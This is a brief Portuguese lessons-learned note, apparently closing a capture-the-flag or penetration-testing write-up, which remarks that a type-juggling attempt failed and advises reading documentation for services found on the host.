- Nem sempre o caminho mais obvio sera o correto, como e o caso do type juggling que nao da certo
- Ler documentacao de servicos identificados no host


_har har mahadev._ 
